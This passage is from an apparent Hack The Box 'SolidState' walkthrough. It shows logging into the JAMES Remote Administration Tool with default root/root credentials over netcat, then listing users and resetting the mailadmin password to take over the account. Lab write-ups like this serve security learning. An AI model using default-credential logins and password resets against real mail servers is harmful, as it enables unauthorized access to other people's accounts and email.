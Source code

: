 ```text
root@kali:~/Desktop/htb/solidstate# nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```

It works, good! List the available commands using the HELP command.

```text
HELP
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

Use the listusers command to display existing accounts.

```text
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

We have 5 accounts. Since this is an admin account, we can set a user’s password and then access their account. If this was a real penetration test, you probably don’t want to do that. You’ll raise a lot of red flags when a bunch of users no longer can access their accounts. However, since this is a practice environment, I’m going to go all out. Let’s start by changing the mailadmin user’s account.

```text
setpassword mailadmin password
Password for mailadmin reset
```
